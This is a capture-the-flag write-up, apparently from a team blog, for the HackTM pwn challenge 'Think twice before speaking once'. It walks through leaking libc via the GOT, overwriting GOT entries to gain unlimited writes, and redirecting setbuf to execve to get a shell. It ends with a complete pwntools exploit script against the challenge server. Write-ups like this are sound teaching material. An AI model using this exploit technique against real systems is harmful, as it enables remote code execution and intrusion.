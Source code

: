 ```yaml
---
layout: post
category: Pwn
title: HackTM - Think twice before speaking once
tags: 
    - kowu
---
```


A "kind of" blind pwning challenge, non-pic binary was provided (but not unusable out of the box because of some linker foo?).

```
user@KARCH ~ % nc 138.68.67.161 20004
 [*] Wise man said: 'Think twice before speaking once'
 [1] Think
 [2] Speak
 [3] Give Up
 >1
 [#] Enter Where: 4194304
[ 
ELF ]
 [1] Think
 [2] Speak
 [3] Give Up
 >3
```

The basic functionality was, that one could leak memory as often as he wants. But a 8 byte-write is allowed only once.

# Resolving Functions

Let's start with leaking everything we need. First of all we obtain a pointer into libc by leaking from our own GOT.
Then we can let pwntools DynELF do the rest of the work. Done.

```python
libcptr = struct.unpack('<Q', leakat(0x00601018))[0] - 0x69000
d = DynELF(leakat, libcptr)
d.lookup('system')
```

# Unlimited Write

In the next step I crafted some unlimited writing primite. If we look at the implementation of the leaking functionality we can see that it is implemented using a write(stdout, myaddr, 8).

```c
sym.imp.printf(" [#] Enter Where: ");
sym.imp.fflush(_reloc.stdout);
sym.imp.__isoc99_scanf("%lu", &var_10h);
sym.imp.puts("[ \n");
sym.imp.write(1, var_10h, 8);
sym.imp.puts(" ]");
```

Now, if we overwrite the reloc.write with read, a leak request at myaddr will lead to the execution of read(stdout, myaddr, 8). Even though we are reading from stdout, it is effectively the same as stdin. And by using this we now have unlimited writes.

# RIP & RDI Control

In a final step I wanted to execute system("/bin/sh"). For getting RIP control I overwrote reloc.exit with an address of my choice. So exiting gives me RIP control, but RDI is not controllable at all (it is zero because of exit(0)).

If we look at the initialization routine of the binary we can see three calls to setbuf/setvbuf. And each of them dereferences a pointer from a controllable location (reloc.stdin/out/err) and uses it to call a controllable function with.

```c
void sym.init_proc(void)
{
    sym.imp.setvbuf(_reloc.stdin, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stdout, 0, 2, 0);
    sym.imp.setbuf(_reloc.stderr, 0);
    sym.imp.signal(0xe, sym.handler);
    sym.imp.alarm(0x3c);
    return;
}
```

closer look in asm:

```java
0x004008db      488b05be0720.  mov rax, qword [obj.stderr]
0x004008e2      be00000000     mov esi, 0
0x004008e7      4889c7         mov rdi, rax
0x004008ea      e801feffff     call sym.imp.setbuf
```

The Idea is to overwrite setbuf with system and modify reloc.stderr to be a pointer pointing to /bin/sh.
Stderr is never used inside the code, so nothing is going to crash.
The /bin/sh string is placed in some unused memory (e.g. just at the end of the reloc section).
If we have done this, we can now just call main or init_proc to get a shell. (At least I thought so, it crashed...)

# WTF

I don't know what was going on on the remote side, but to me it seemed like the env pointer was wrong? 
So when doing a system("/bin/sh") libc would try to resolve the environment variables, but it got a wrong pointer and it would crash.
Anyways, by calling execve directly this doesn't happen, because we would have to do the job of supplying argv and env pointers.
Supplying NULL is fine as well. And as lucky as we are, the second and third arguments are either NULL or some valid pointers. Shell.


```
from pwn import *

r = remote('138.68.67.161', 20004)


def leakat(addr):
    r.sendlineafter('>', '1')
    r.sendlineafter('Where:', str(addr))
    r.recvuntil('[ \n')
    return r.recvn(8)


def writeto(addr, value):
    r.sendlineafter('>', '2')
    r.sendlineafter('Where:', str(addr))
    r.sendlineafter('What: ', str(value))


def xwrite(addr, value):
    r.sendlineafter('>', '1')
    r.sendlineafter('Where:', str(addr))
    r.recvuntil('[ \n')
    r.send(struct.pack('<Q', value))


def sploit():
    libcptr = struct.unpack('<Q', leakat(0x00601018))[0] - 0x69000

    # resolve addresses. Use execve instead of system because of fucked up env ptr?
    d = DynELF(leakat, libcptr)
    addr_execve = d.lookup('execve')
    addr_read = d.lookup('read')

    # read is now write for unlimited write.
    writeto(0x00601020, addr_read)

    # place /bin/sh in unused mem, let reloc.stderr point there
    xwrite(0x00601100, struct.unpack('<Q', b'/bin/sh\0')[0])
    xwrite(0x006010a0, 0x00601100)

    # setbuf is now execve
    xwrite(0x00601028, addr_execve)

    # exit is now main
    xwrite(0x00601068, 0x00400930)

    # exit to main -> init_proc -> execve("/bin/sh", 0, ?)
    r.sendlineafter('>', '3')
    r.interactive()


if __name__ == '__main__':
    sploit()
```
